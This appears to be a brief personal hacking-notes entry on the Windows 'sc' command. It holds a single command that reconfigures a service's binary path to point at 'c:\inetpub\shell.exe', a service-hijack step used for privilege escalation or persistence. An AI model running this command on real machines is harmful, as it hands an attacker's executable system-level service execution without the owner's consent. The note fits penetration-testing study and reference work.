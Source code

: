 # dos commands services sc set binary path
sc config SVC_NAME binpath= "c:\inetpub\shell.exe"

# References
- [20221003151115](/zet/20221003151115/) dos commands services sc
- ~/kb/hacking/windows/dos-and-powershell-enumeration-quick.md

Tags:
    #assorted

